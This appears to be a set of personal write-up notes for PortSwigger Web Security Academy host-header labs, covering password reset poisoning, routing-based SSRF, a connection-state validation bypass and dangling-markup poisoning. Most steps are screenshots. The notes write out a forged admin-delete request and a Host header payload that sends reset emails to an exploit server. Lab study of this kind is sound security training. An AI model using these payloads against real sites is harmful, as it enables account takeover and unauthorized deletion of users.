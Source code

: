 **Basic password reset poisoning**

From <https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning> 

Capture a password reset request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/475ae3f6-2f67-44d5-9194-57719a4a8f4f)



Arbitrary host gave us a 200 status
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/110de408-0f7f-43af-a21d-3ed82ba45987)




Our email shows a google url
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/09a3af34-594d-40d2-95c6-195907dc9287)


Changing the host name to our malicious exploit server email client
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4c74fe59-135a-42c2-8ec7-08aa7d4e6586)



Changing user to carlos 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a2b4e522-7bd5-4795-bf70-a04bec1a59e9)



Our url to replace carlos password in a access log
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/03b1f702-664d-4a5a-92aa-e33e7358e057)



Password changed and logged in
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7c64ae2c-f16d-4744-bfef-4b343b3a4232)

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/74404156-78dc-4e87-8ba5-2db783bb2616)





**Routing-based SSRF**

From <https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf> 

We need burp collaborator to poll http session for this lab since it doesn’t have a exploit server  

Go to /admin 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4ae506c8-c7cf-4e79-a3bd-ac4395f0216c)



Enter a private ip
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e884dca6-3655-4968-8d70-3a63ec718edd)


Send to intruder and parameterize the following 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/acb111c1-4af1-4f88-a536-ce56f20d299c)


Our payload 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0bab0311-717a-4edf-8dac-60ef8de3f51a)


Found
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d9eb0b0a-7353-4e2d-9c8f-41c7790386a8)


Transfer to repeater and go to admin directory
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5be21b20-4917-4fa8-8ffd-85485ba645ca)



Delete user
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8f0a0ae9-db4b-4628-9b32-21e494a2dd10)




**SSRF via flawed request parsing**

From <https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing> 

We don’t have collaborator to confirm so when get a chance test it out

Putting whole url get us a 504 request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2d05bdc0-bb88-4fde-a0fb-842f9554ae88)





Bruteforce like previous
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/274d9b38-9de1-4b1e-bbb6-7acdd56354fb)




Access admin panel
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ffcc1311-d504-4142-878c-11710ee532a5)


Delete user to complete
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/893cb145-750c-474b-b14d-9eab3061e507)



**Host validation bypass via connection state attack**

From <https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack> 

Send the GET / request to Burp Repeater. 

From <https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack> 

Change the path to /admin. 
Change Host header to 192.168.0.1. 
Send the request. Observe that you are simply redirected to the homepage
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e70c8812-e8e2-4fa0-8479-3fc5fc14d178)


Create group
Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection). 
Send a duplicate for two tab
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e1c27276-19a3-4c1a-b857-7ad6f831c000)


Our first request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/266c7593-5d46-43d4-8fe5-8d608648cec8)





Our second request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/31212cda-17f5-44d2-a830-d9874d7f0115)



Sending request we can delete user
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/91271534-8e8e-4e8e-acc8-0e778c16a4ee)




Modify request to include csrf and username
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0dbffd80-56be-4531-81f8-67b1ccaa59ae)



Error when send
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/547d260c-de4e-4dcb-8c22-5c13cfb0e745)


Change request method to post

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/77523dba-f4e4-40cc-a629-43b16a38a9da)


Send request to solve
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/99c6adbd-ecc8-4f92-a485-3e735300d56f)




Burpesuite academy solution did not use

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=YOUR-CSRF-TOKEN&username=carlos
```


**Password reset poisoning via dangling markup**

From <https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup> 

Go through the password reset with proxy on
Observe that the HTML content for your email is written to a string, but this is being sanitized using the DOMPurify library before it is rendered by the browser. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/53820e02-d6c8-4794-b2a8-24d88b6990ea)




We have option to view raw html on our email
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/64e16478-cbeb-4ec6-a46d-f8aae5efab92)



Sending the following will trigger a password reset
Host: YOUR-LAB-ID.web-security-academy.net:arbitraryport
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/dc54047c-cf71-46b7-ac37-9a32c21dff19)

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2f698404-f047-4177-947a-2a8ec43f22b4)




Viewing raw will see our port being reflect 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8c8a298d-d336-42ae-960b-49afe6c16322)


We can exploit this by including our exploit server
```
Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```

From <https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup> 


Changing carlos password 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f13eeb5d-6a1d-4d71-819e-5044ebef6042)


Our new password listed
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/99481c1f-54fe-4011-a436-e6bdc5aa3fbd)


